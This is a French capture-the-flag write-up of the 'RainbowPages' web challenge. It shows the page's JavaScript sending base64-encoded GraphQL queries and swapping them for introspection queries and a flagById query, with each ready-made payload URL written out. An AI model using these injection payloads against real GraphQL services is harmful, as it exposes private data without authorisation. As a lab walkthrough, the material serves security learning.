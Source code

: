 # <center>RainbowPages</center>

<center>

![](./RP.png)
</center>

On arrive sur cette page

![](./RB1.png)

Voyons voir le code source, ça pourrait un peu nous éclairer

    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa('{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}');
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>

Vu la tête de la requête on peut se dire qu'il s'agit en réalité de GraphQL et que donc le challenge ici va consister en une GraphQL injection.

L'endpoint est situé à /index.php?search= comme on peut le voir dans le script ci-dessus.
<br>
Maintenant essayons de rentrer quelque chose dans la barre de recherche du site.
<br>
![](./RB2.png)

On peut voir que la requête est bien faite à /index.php?search= et que le paramètre mis à search est une chaîne en base64, déchiffrons là.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/Web/Rainbow Pages/1$ echo eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIlZXhlbXBsZSUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0= | base64 -d
    { allCooks (filter: { firstname: {like: "%exemple%"}}) { nodes { firstname, lastname, speciality, price }}}

Nous avons donc notre requête qui est directement envoyée à partir de l'url, pour exploiter cette vulnerabilité nous avons juste à remplacer la requête initiale par une autre préalablement choisie.
<br>
Essayons d'afficher tous les champs à l'aide de la requête 

    {  
     __schema {
        types {
        name
        }
     }
    }

Il faut donc maintenant la mettre en base 64, ce qui nous donne la requête finale ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHR5cGVzIHsKICAgICAgbmFtZQogICAgfQogIH0KfQo=```

![](./RB3.png)

On voit alors tous les champs GraphQL.
<br>
Mais cela ne nous intéresse pas vraiment ici, essayons plutôt de lister les Queries avec la requête

    {
     __schema {
        queryType {
        fields {
            name
            description
        }
        }
     }
    }

soit ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHF1ZXJ5VHlwZSB7CiAgICAgIGZpZWxkcyB7CiAgICAgICAgbmFtZQogICAgICAgIGRlc2NyaXB0aW9uCiAgICAgIH0KICAgIH0KICB9Cn0K```

Ce qui nous donne

![](./RB4.png)

En essayant d'afficher le contenu des différents champs avec la payload

    {
    __type(name: "Champ") {
        name
        fields {
        name
        type {
            name
            kind
        }
        }
    }
    }

On ne trouve pas grand chose d'intéressant.
Alors des champs devraient plus nous attirer que d'autres, ceux contenant le mot 'flag'. 
<br>Alors après s'être un peu renseigné sur la syntaxe GraphQL on apprend que l'on peut rajouter des paramètres aux requêtes envoyées, alors on test plusieurs requêtes sur les champs 'flag', 'allFlags' et 'flagById'.
<br>En se penchant sur le 'flagById' on arrive à avoir quelque chose de concluant en mettant l'id à 1 et en affichant 'flag', comme ceci : 

    { 
    flagById(id: 1) {
        flag 
    }
    }

soit ```/index.php?search=IHsgCiAgICBmbGFnQnlJZChpZDogMSkgewogICAgICAgIGZsYWcgCiAgICB9CiB9Cg==```

La page nous renvoit 

![](./RB5.png)

:)